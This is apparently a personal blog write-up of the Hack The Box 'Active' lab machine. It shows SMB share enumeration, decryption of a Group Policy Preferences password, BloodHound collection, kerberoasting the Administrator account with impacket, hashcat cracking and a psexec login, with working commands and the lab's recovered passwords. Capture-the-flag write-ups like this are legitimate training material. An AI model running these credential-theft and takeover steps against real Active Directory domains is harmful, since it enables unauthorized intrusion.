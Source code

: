 ```yaml
---
layout: post
title: My first writeup! Hack The Box, Active
tags: [Hack The Box, Active Directory, Bloodhound, Hashcat, GPP]
---
```

![logo](/boxes/htb/active/activeDirectory.PNG)

### i. Port Scan
![nmap portscan](/boxes/htb/active/nmap.PNG)
### ii. Enumeration
SMB ports were listed open on the nmap scan. Let's check if any shares are available with smbclient and smbmap.
```
smbclient -L 10.10.10.100
smbmap -H 10.10.10.100
```
smbclient:   
![smbclient](/boxes/htb/active/smbclient.PNG)

smbmap:  
![smbmap](/boxes/htb/active/smbmap.PNG)

Smbmap reveals a file share called Replication with read only permissions. Smbmap can be used to list the contents of the Replication directory:
```
smbmap -R Replication -H 10.10.10.100
```
Looking through the contents of the Replication directory there is a file called Groups.xml. This is a group policy file where local account information is typically stored for older Active Directory implementations.

![ReplicationFiles](/boxes/htb/active/groupsxml.PNG)

To download the file we use:
```
smbmap -R Replication -H 10.10.10.100 -A Groups.xml -q
```
Opening and reading the Groups.xml file, an account `SVC_TGS` and a encrypted password `edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH` was found. 

![groupsxmlhash](/boxes/htb/active/grouphash.png)


The password is encrypted with a known key:

https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be  
![msftknownkey](/boxes/htb/active/aes key.jpg)

To decrpyt the password, we use gpp-decrpyt:  

![gppdecrypt](/boxes/htb/active/gppdecrypt.png)

The decrypted hash is `GPPstillStandingStrong2k18`. Using the credentials we found we enumerate more shares.
```
smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.10.10.100
```
![moreshares](/boxes/htb/active/moreshares.PNG)

Logging in and enumerating these shares lead to the user flag under the `SVC_TGS\Desktop\` directory.

Now that we have credentials, let's use Bloodhound on the box. We switch to a Windows VM and run the following command:
```
runas /netonly /user:active.htb\svc_tgs cmd
```
Make sure to check your DNS settings on your network adapter and set it to 10.10.10.100. 

Run sharphound with the following command to gather information to use in Bloodhound:
```
sharphound.exe -c all -d active.htb --domaincontroller 10.10.10.100
```
A zip file should have been created with the infomartion to import into Bloodhound. Drag and drop the zip file created from into the user interface of Bloodhound to import the information. Checking for domain admin did not reveal anything. Checking for kerberoasting, the user `ADMINISTRATOR` is available for this attack.
![kerberoasting](/boxes/htb/active/kerberoasting.PNG)

Using GetUserSPN.py from impacket we will grab the hash of `ADMINISTRATOR`
```
GetUserSPN.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs
```
![adminhash](/boxes/htb/active/getUserSPN.PNG)

We copy the hash into a file and use hashcat to crack the hash via the following command:
```
hashcat -m 13100 hash.txt rockyou.txt 
```
![crackedhash](/boxes/htb/active/adminpw.PNG)

The Administrator password is: `Ticketmaster1968`

Now we can use psexec and log into the box and get the root flag
```
psexec.py active.htb/Administrator@10.10.10.100
```
![rootflag](/boxes/htb/active/rootflag.PNG)
